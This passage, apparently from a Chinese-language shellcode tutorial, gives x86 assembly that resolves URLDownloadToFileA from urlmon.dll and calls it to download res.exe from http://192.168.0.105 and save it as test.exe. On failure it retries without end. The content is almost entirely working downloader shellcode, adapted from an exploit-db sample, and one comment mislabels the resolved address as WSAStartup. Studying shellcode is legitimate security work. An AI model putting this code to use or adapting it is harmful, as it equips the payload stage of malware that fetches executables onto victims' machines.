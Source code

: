 ##### 通过urlmon.dll获得URLDownloadToFileA的入口地址

```asm
; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA") 
 xor edx, edx
 mov dx, 0x4165          ; Ae : 4165
 push edx
 push 0x6C69466F         ; liFo : 6c69466f 
 push 0x5464616F         ; Tdao : 5464616f
 push 0x6C6E776F         ; lnwo : 6c6e776f
 push 0x444C5255         ; DLRU : 444c5255
 push esp                ; push pointer to string to stack for 'URLDownloadToFileA'
 push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
 mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
 call eax                ; GetProcAddress
;   EAX = WSAStartup Address
 mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
```

##### 使用URLDownloadToFileA下载文件

URLDownloadToFileA汇编代码的依据：https://www.exploit-db.com/shellcodes/40094

> 需要开启本机器的web服务，在根目录下提供exe下载

```asm
;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
download:
pop eax
xor ecx, ecx
push ecx
; URL: http://192.168.0.105/res.exe
push 0x6578652E         ; exe.
push 0x7365722F         ; ser/
push 0x3530312E         ; 501.
push 0x302E3836         ; 0.86
push 0x312E3239         ; 1.29
push 0x312F2F3A         ; 1//:
push 0x70747468         ; ptth
push esp
pop ecx                 ; save the URL string
xor ebx, ebx
push ebx
; save as test.exe
push 0x6578652E         ; exe.
push 0x74736574         ; tset
push esp
pop ebx                 ; save the downloaded filename string
xor edx, edx
push edx
push edx
push ebx
push ecx
push edx
mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
call eax
pop ecx
add esp, 44
xor edx, edx
cmp eax, edx
push ecx
jnz download            ; if it fails to download , retry contineusly
pop edx
```
